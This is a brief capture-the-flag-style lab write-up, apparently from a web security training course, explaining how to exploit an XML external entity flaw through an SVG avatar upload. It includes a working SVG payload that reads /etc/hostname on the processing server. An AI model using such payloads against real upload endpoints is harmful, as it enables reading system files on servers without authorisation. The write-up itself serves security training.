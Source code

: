 ### Lab: Exploiting XXE via image file upload

This lab lets users attach avatars to comments and uses the Apache Batik library to process avatar image files.

To solve the lab, upload an image that displays the contents of the /etc/hostname file after processing.  
Then use the "Submit solution" button to submit the value of the server hostname.

_____

Analysis and Exploit:

1. Intercept request for profile picture change and send it ot **[BRUP-REPEATER]**
    - csrf,
    - postId,
    - comment, 
    - name,
    - avatar,
    - email,
    - website (http://xxxxx)

2. Craft svg file with XML payload and upload it as avatar.svg

```xml
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg> 
```
3. Upon successfull upload check the comment and open the avatar image, it should contains the hostname
